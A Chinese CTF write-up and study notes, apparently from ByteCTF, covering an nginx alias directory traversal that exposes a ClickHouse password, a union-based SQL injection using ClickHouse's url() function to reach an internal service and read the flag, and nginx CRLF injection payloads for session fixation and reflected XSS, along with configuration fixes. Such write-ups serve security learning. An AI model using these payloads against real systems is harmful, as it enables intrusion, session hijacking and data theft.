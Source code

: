 第一步：

nginx配置不当导致目录穿越

http://39.105.175.150:30001/files../var/lib/clickhouse/access/

有个sql文件 下载下来后拿到数据库密码


ATTACH USER user_01 IDENTIFIED WITH plaintext_password BY 'e3b0c44298fc1c149afb';

ATTACH GRANT SELECT ON ctf.* TO user_01;

通过其自带内网的http服务登录user_01拿到flag

```php
http://39.105.175.150:30001/?id=1 union all select extractTextFromHTML(html) FROM url('http://127.0.0.1:8123/?user=user_01%26password=e3b0c44298fc1c149afb%26query=select%2520*%2520from%2520ctf.flag',RawBLOB,'html String');--
# ByteCTF{e3b0c44298fc1c149afbf4c8}
```

知识点：

ngnix配置不当导致目录穿越

Nginx在配置别名（Alias）的时候，如果忘记加/，将造成一个目录穿越漏洞。
错误的配置文件示例（原本的目的是为了让用户访问到/home/目录下的文件）：

利用方法：

![](https://img-blog.csdnimg.cn/20181116174450974.png)

穿越上层目录

![](https://img-blog.csdnimg.cn/20181116174455219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

漏洞修复

![](https://img-blog.csdnimg.cn/20181116174504524.png)

![](https://img-blog.csdnimg.cn/20181116174507397.png)

crlf注入：
-

什么是crlf注入：

回车换行（CRLF）注入攻击是一种当用户将CRLF字符插入到应用中而触发漏洞的攻击技巧。CRLF字符（%0d%0a）在许多互联网协议中表示行的结束，包括HTML，该字符解码后即为\ r\ n。这些字符可以被用来表示换行符，并且当该字符与HTTP协议请求和响应的头部一起联用时就有可能会出现各种各样的漏洞，包括http请求走私（HTTP RequestSmuggling）和http响应拆分（HTTP Response Splitting）。

明天要看的文章：

https://www.cnblogs.com/mysticbinary/p/12560080.html

https://www.cnblogs.com/mysticbinary/p/12560080.html

漏洞原理

```php

Nginx会将$uri进行解码，导致传入%0a%0d即可引入换行符，造成CRLF注入漏洞。

错误的配置文件示例（原本的目的是为了让http的请求跳转到https上）：

location / {
    return 302 https://$host$uri;
}

利用方式

访问 192.168.91.130:8080

正常跳转

![](https://img-blog.csdnimg.cn/20181116173700538.png)

会话固定

payload

http://192.168.91.130:8080/%0ASet-cookie:JSPSESSID%3D360

![](https://img-blog.csdnimg.cn/20181116173708141.png)

返回包

![](https://img-blog.csdnimg.cn/20181116173713712.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

反射性XSS

payload

![](http://192.168.91.130:8080/%0D%0A%0D%0A%3Cimg%20src=1%20onerror=alert(/xss/)%3E)

![](https://img-blog.csdnimg.cn/20181116174035141.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

为什么没弹窗？

浏览器Filter对XSS特征进行了过滤，并且浏览器进行了跳转如何阻止浏览器跳转，参考链接：

https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html

https://www.leavesongs.com/PENETRATION/Sina-CRLF-Injection.html


漏洞修复
```php
location /{
return 302 https://$host$request_uri
}
```
使用不解码的跳转方式

以上是根据这次字节跳动的ctf比赛而找的一些知识点，看了很多大佬博客，所以我觉得应该挺全了吧算是。
